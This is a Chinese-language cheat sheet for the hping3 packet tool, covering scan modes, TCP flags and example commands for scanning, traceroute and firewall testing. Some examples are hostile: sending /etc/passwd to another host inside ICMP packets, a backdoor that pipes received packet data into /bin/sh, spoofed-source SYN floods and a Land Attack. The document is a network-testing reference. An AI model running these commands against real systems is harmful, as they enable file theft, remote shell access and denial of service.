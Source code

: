 # hping3, 强大的发包工具

hping3可以发送自定义TCP/IP数据包，然后像ping一样展示响应。你可以使用hping3实现下面的一些工作：

+ 测试防火墙规则
+ 高级端口扫描
+ 通过协议类型、包大小、服务类型(TOS, type of service)和IP分片来测试网络性能
+ 探测MTU路径
+ 路由跟踪
+ 远程操作系统探测
+ TCP/IP栈审计

默认情况下，hping3发送TCP headers到目标主机的0端口，winsize设置为64，没有启用任何tcp flag。通常情况下，这是最好的隐藏ping(hide ping)实现方式，一个没有标志(null-flag)的tcp发送到0端口，有很大的可能不会被记录(logged)。

扫描模式：
```
-0, --rawip,    RAW IP mode, 此模式下hping会发送带数据的IP头
-1, --icmp,     ICMP mode, 发送ICMP echo-request，
                    可以使用--icmptype和--icmpcode选项配置icmp的type/code
-2, --udp,      UDP mode, 发送udp报文到主机的0端口
-8, --scan,     Scan mode, 端口扫描，需要接一个指定端口的参数
                    1,2,3   1-1000   all (代表0-65535)   1-1000,8888
                    known (/etc/services定义的端口)   !known
-9, --listen signature,    listen mode, 接收指定的数据
```

## TCP Scans

### TCP flags

```
-S, --syn    flags=SYN
-A, --ack    flags=ACK
-R, --rst    flags=RST
-F, --fin    flags=FIN
-P, --push   flags=PUSH
-U, --urg    flags=URG
-X, --xmas   flags=Xmas
-Y, --ymas   flags=Tmas
```

### 示例

```
# -c, 发送包数量
# -S, SYN tcp flag
hping3 -S 8.8.8.8 -p 80 -c 1

# 从80端口开始自增
hping3 -S 4.2.2.1 -p ++80 | grep SA

# 扫描多个端口
hping3 -8 50-56 -S 4.2.2.1

# ACK
hping3 -A 8.8.8.8 -p 80 -c 1

hping3 -F -P -U 8.8.8.8 -p 80 -c 1
```

## hping3使用示例

```
# udp
hping3 -2 192.168.1.1 -p 80 -c 1

# icmp
# -C 13相当于--icmp-ts, timestamp request
# -C 17相当于--icmp-addr, address mask request
hping3 -1 192.168.1.1 -C 13

# ping失效后的主机检测
# -i, --interval, 发送每个包之前等待的时间, 默认为1秒
# -i u10000, 等待10000微秒(micro seconds)
hping3 -c 4 -n -i 2 192.168.1.1

# -Q, --seqnum
hping3 192.168.1.103 -Q -p 139 -S

# 拦截流量
hping3 -9 HTTP -I eth0
hping3 -9 "http://www.google.com/search?" --beep -I eth0

# 文件传输
## 接收端
hping3 -1 192.168.1.100 -9 signature -I eth0
## 发送端, -d, --data, 设置发送包的大小; -E, --file, 使用文件内容填充包数据
hping3 -1 192.168.1.101 -e signature -E /etc/passwd -d 2000

# -T, --traceroute, 数据包跟踪
# -V, --verbose
hping3 -T -V -1 www.baidu.com
# --tr-keep-ttl, 不更改ttl
hping3 -S 64.233.167.99 -p 80 -T --ttl 15 --tr-keep-ttl -n

# firewall/ids testing
hping3 -S 72.14.207.99 -p 80 --tcp-timestamp

# 以Land Attack方式测试目标防火墙
# Land Attack时将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接
hping3 -S -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10

# 小后门
hping3 -I eth0 -9 secret | /bin/sh
hping3 -R 192.168.1.100 -e secret -E commands_file -d 100 -c 1

# --flood, 以泛洪的方式攻击
# -a 伪造来源ip
hping3 -S 192.168.1.1 -a 192.168.1.254 -p 22 --flood
hping3 -S 192.168.1.101 -a 192.168.1.101 -k -s 135 -p 135 --flood
hping3 -A -S -P -U 66.66.66.66 -k -s 80 -p 80 -a 192.168.1.1

# fuzzing
hping3 -2 4.2.2.1 -p ++44444 -T -n
hping3 -S 4.2.2.1 -p 53 -T

# Local Privilege Escalation
hping3> id uid=0(root) gid=0(root) groups=0(root)

# 主机扫描
for addr in $(seq 1 254); do hping3 192.168.1.$addr -c 1 --icmp & done
```
